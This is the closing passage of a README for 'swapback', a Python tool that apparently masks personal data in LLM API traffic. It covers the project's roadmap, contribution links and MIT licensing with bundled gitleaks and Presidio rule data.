in `swapback/vendor` (see `THIRD_PARTY_NOTICES.md`); `tools/build_vendor.py` regenerates the Presidio patterns.

See [CONTRIBUTING.md](https://github.com/rmpmrepo1278/swapback/blob/main/CONTRIBUTING.md) and the [changelog](https://github.com/rmpmrepo1278/swapback/blob/main/CHANGELOG.md).

## Roadmap

- ~~Restore Anthropic Messages streams.~~ Done in 0.1.1.
- ~~Catch separator and case variants of listed values (NBSP, `.`, `_`, `-`, `%20`, all caps) under one placeholder.~~
  Done in 0.1.1.
- ~~Restore OpenAI Responses API streams.~~ Done in 0.3.0.
- ~~Keep placeholders in tool calls that could send data out.~~ Done in 0.3.0.
- ~~Build the known-values file from a contacts export.~~ Done in 0.3.0 (`swapback known init`).
- Optional, pluggable NER for names you never listed, off by default.
- More national ID and address patterns, with tests from synthetic data.
- ~~Release on PyPI.~~ Done: `pip install swapback`.
- ~~Hooks for spend caps, local fallback and usage accounting.~~ Done in 0.4.0.

Ideas and pull requests are welcome; open an issue first for anything large.

## License

MIT, see [LICENSE](https://github.com/rmpmrepo1278/swapback/blob/main/LICENSE). Bundled rule data: gitleaks (MIT) and Microsoft Presidio (MIT), see
[THIRD_PARTY_NOTICES.md](https://github.com/rmpmrepo1278/swapback/blob/main/THIRD_PARTY_NOTICES.md).
